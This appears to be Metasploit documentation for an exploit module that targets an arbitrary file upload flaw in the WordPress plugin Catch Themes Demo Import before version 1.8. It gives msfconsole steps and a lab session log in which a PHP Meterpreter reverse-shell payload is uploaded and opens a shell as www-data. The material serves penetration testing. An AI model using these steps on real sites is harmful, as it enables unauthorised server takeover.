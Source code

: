 ## Vulnerable Application

The Wordpress Plugin Catch Themes Demo Import versions < 1.8 are vulnerable to arbitrary file
uploads via the import functionality found in the `~/inc/CatchThemesDemoImport.php` file,
due to insufficient file type validation.

Of note, the check functionality may not detect the version of `Catch Themes Demo Import` due
to the readme file not containing the proper version number line.

## Verification Steps

1. Install the plugin to wordpress
1. Start msfconsole
1. Do: `use exploits/multi/http/wp_catch_themes_demo_import`
1. Do: `set rhosts`
1. Do: `set username`
1. Do: `set password`
2. Do: `run`
3. You should get a shell.

## Options

### USERNAME

Username of the account which has post privileges. Defaults to `admin`.

### PASSWORD

Password of the account which has post privileges. Defaults to `admin`

## Scenarios

### Wordpress Catch Themes Demo Import 1.6.1 on Wordpress 5.4.8 running on Ubuntu 20.04

```
resource (catch_theme.rb)> use exploits/multi/http/wp_catch_themes_demo_import
[*] Using configured payload php/meterpreter/reverse_tcp
resource (catch_theme.rb)> set rhosts 2.2.2.2
rhosts => 2.2.2.2
resource (catch_theme.rb)> set username admin
username => admin
resource (catch_theme.rb)> set password admin
password => admin
resource (catch_theme.rb)> set verbose true
verbose => true
resource (catch_theme.rb)> set lhost 1.1.1.1
lhost => 1.1.1.1
resource (catch_theme.rb)> run
[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking /wp-content/plugins/catch-themes-demo-import/readme.txt
[!] The service is running, but could not be validated. Could not identify the version number
[*] Ajax Nonce: 11a5dba010
[*] Uploading payload filename: Y5LBjS3t.php
[*] Triggering payload at wp-content/uploads/2021/12/Y5LBjS3t.php
[*] Sending stage (39282 bytes) to 2.2.2.2
[+] Deleted Y5LBjS3t.php
[*] Meterpreter session 1 opened (1.1.1.1:4444 -> 2.2.2.2:34002 ) at 2021-12-21 20:01:30 -0500

meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer    : wordpress2004
OS          : Linux wordpress2004 5.4.0-52-generic #57-Ubuntu SMP Thu Oct 15 10:57:00 UTC 2020 x86_64
Meterpreter : php/linux
```

